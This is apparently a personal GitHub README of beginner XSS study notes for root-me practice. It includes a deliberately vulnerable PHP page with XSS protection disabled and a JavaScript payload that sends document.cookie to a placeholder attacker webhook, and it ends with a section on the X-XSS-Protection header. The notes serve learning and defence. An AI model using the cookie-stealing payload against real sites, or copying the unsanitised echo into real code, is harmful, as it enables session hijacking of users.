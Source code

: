 # InfoSec related notes 

I have started to write down notes on security related resources I've been scanning.
This resource might be helpful for people just getting started with Information Security and for future blog posts by me.  

## License

[![CC BY-NC-SA 4.0](https://i.creativecommons.org/l/by-nc-sa/4.0/88x31.png)](http://creativecommons.org/licenses/by-nc-sa/4.0/)  

This work is licensed under a [Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License](http://creativecommons.org/licenses/by-nc-sa/4.0/).  

## The Notes Themselves
> Influenced by LiveOverFlow's youtube channel, and some additional resources 
> Videos [here](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)
> root-me platform [here](https://root-me.org)  

[comment]: <> (description will be added)  

### Web - XSS
Written on Sep 6 2019
> Influenced by a plethora of tasks on  [rootme](https://root-me.org/)
> and a LOT of googling  

Note that in order to play with XSS, you need to disable browser protection,
The following php codes must include:  
`
header("X-XSS-Protection: 0");
`  
You can read about this at [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection)
The HTTP X-XSS-Protection response header is a feature of Internet Explorer, Chrome and Safari that stops pages from loading when they detect reflected cross-site scripting (XSS) attacks. Although these protections are largely unnecessary in modern browsers when sites implement a strong Content-Security-Policy that disables the use of inline JavaScript ('unsafe-inline'), they can still provide protections for users of older web browsers that don't yet support CSP.
Albeit this will be futher explained later at this note.  

Also, you can find payloads to play with at [HTML5 Security Cheatsheet](http://html5sec.org/)   

#### 1. XSS - reflected  
   It is recommended that you try to read more about this in the docs section of root-me and try to solve a challenge for practice.  
   Initial code:  
   ```php
   <?php 
   // header included here
   // you will need a php server to run the example 
   // you can use the default php server by running
   // php -s localhost:80
   // read more about php built-in we server here
   // https://www.php.net/manual/en/features.commandline.webserver.php
   ?>
   
   <html>
    <body>
        <h1> <?php echo "Hello".$GET['try'] ?></h1>
        <!--
        This will output the concat result of Hello and what you supply as argument to the ?try parameter
        localhost:80/yourcode.php?try={payload later goes here}
        -->
    </body>
   </html>
   ```  
   supplying 
   ```javascript
   <script>console.log(1)</script>
   ``` 
   as input will be reflected in the webpage, thus the name **reflected Cross Site Scripting**  
   Of course writing to the console is boring, however this proves that we have code execution the context of the browser, an attacker may then leverage the full capabilities of JS with the ability to steal JS-accessible cookies which is usually the case for a session hijacking attack.  
   Read more about cookies and scoping [here](https://developer.mozilla.org/fr/docs/Web/API/Document/cookie)  
   Let's make our first payload. However, we will need some kind of session cookie. This can be done by  
   ```php
   <?php
   // Starting session
   // this will create cookies
   // you can them by viting the developer tools  
   session_start();
   ?>
   ```
   The session_start() function first checks to see if a session already exists by looking for the presence of a session ID. If it finds one, i.e. if the session is already started, it sets up the session variables and if doesn't, it starts a new session by creating a new session ID.  
   [official manual](https://www.php.net/manual/fr/function.session-start.php)  
   To our first test, let's try to steal the cookies:
   payload:
   ```javascript
   let element = document.createElement("img");
   element.setAttribute("src", "webhookurl/?"+document.cookie);
   document.body.appendChild(element);
   ```  
   The example above, gets the document cookie and appends it to the url of an attacker's controlled webhook.  
   _Note: Don't forget to urlencode_  
   for more advanced attack vectors try HTTP parameter pollution.  
   Read about that [here](https://www.owasp.org/index.php/4.8.1_Test_de_Reflected_Cross-Site_Scripting_(OTG-INPVAL-001))  
   Its time for you to go to rootme and play.  
   Additional for CTF creation: 
   **Check PhantomJS the scriptable headless browser, or selenium on python if you want to automate the behavior of a user**  

### 2. XSS - Stored 
   Written on Sep 6 2019 
   As You would have figured by now, for reflected XSS an attacker would have to send a URL with the payload in order to successfully perform the attack. This is not the case for stored XSS as it would trigger on every page which has the injected payload loaded from a file or a database. 
   This bug can be found on sections loading data dynamically from an external storage source, and the payload can be inserted in a signup/message/comment-like field.
   Same concepts for reflected XSS are inherited, however it is the client side equivalent to SQL injection, targeting users instead of the application itself.  
   ![alt text](https://www.imperva.com/learn/wp-content/uploads/sites/13/2019/01/sorted-XSS.png "image taken from impreva")  
   _Solve root-me tasks and if you have anything to add or any issues file a new issue_  

## Protection Headers   
### 1. X-XSS-Protection  
   Written on Sep 09 2019
   The **X-XSS-Protection** response header is a security feature implemented by Chrome, Safari, and IE to help block a webpage on the event of detecting reflected injection.  
   Note that modern browsers have stronger features such as CSP, which will be discussed latehowever this is handy when dealing a large portion of the user base relying on older browsers which do not support that feature.  
   In case you are running **Apache**, this can be added by just appending  
   ```
   Header set X-XSS-Protection " (code 0 or 1); [mode=block]"
   or 
   Header set X-XSS-Protection " (code 1); [report=<reporting-uri>]"
   ```  
   to the _.htaccess_ file.  
   In case you are running **Nginx** use the add_header directive  
   ```
   add_header "HEADER GOES HERE"
   ```  
   It is documented [**here**](http://nginx.org/en/docs/http/ngx_http_headers_module.html#add_header).  
   **code**: can be either 0 or 1, describing the state of the XSS filter (0 for disabled). With 1 set as value, the browser will try to sanitize the page removing the unsafe parts. Note that this is not the recommended usage as this can be leveraged by attackers to attack the business logic of a web-app still and hijack the execution flow of existing JS code.  
   **mode** (_optional but **recommended**_): can equal block, the browser will prevent the rendering of the page if an attack  is detected instead of trying to strip away the unsafe parts.  
   **report**: (_optional and available only on Chromium_), will report detected violations using the functionality of the CSP after sanitizing the page.  
   _For Browser compatibility, [**check MDN**](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection#Browser_compatibility)__  

#  

### [REFERENCES AND READS]
* [XSS Attacks - Impreva](https://www.imperva.com/learn/application-security/cross-site-scripting-xss-attacks/)  
* [X-XSS-Protection Header - MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection/)  
* [CSP: Content Security Policy Header - MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/)  
* [XSS Injection - swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection/)  
* [Advanced XSS Knowledge exploit-db](https://www.exploit-db.com/papers/13646)
* [Bypassing XSS filters - %00 How to](https://null-byte.wonderhowto.com/how-to/advanced-techniques-bypass-defeat-xss-filters-part-1-0190257/)
